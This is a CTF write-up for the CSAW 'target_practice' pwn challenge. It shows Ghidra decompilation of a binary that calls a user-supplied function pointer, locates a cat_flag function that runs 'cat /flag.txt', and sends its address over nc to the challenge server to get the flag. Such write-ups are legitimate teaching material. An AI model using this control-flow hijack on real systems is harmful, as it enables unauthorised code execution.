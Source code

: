 ```yaml
---
created: 2023-09-16
tags: ctf writeup
---
```

### Description:
```
Aim carefully... This pwnie can JUMP!
```
### File:
![[target_practice]]
### Solution:
After using file command:
```
target_practice: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c2ae3c4733d9761d5043faa90d68371e52d74bc2, not stripped
```
not stripped. Great!
Opened it with gdb.
After running it, it wants only one input and then it breaks.
After opening it with Ghidra we get inside the  main function:
```c++

int main(void)

{
  long in_FS_OFFSET;
  code *local_20;
  code *local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  fflush(stdout);
  fflush(stdin);
  printf("Aim carefully.... ");
  __isoc99_scanf(&DAT_00400895,&local_20);
  local_18 = local_20;
  (*local_20)();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```
As, `code *local_20;` is a code pointer, and `__isoc99_scanf(&DAT_00400895,&local_20);` is taking input so, I deduced that it must be taking an function pointer.
After searching in Ghidra, I found this function,
```cpp
void cat_flag(void)

{
  system("cat /flag.txt");
  return;
}
```
After using the objdump command with grep we get:
command:
```bash
objdump -D target_practice  | grep "cat"
```
Output:
```
0000000000400660 <_dl_relocate_static_pie>:
0000000000400717 <cat_flag>:
```

So, I found out the function pointer.
Now, time to test.
After using the pointer, I see that it doesn't give segmentation error.
Finally, time to test it on the server.
```bash
nc intro.csaw.io 31138
Aim carefully.... 400717
```
Output:
```
csawctf{y0ure_a_m4s7er4im3r}
```
We got our flag. Yay!
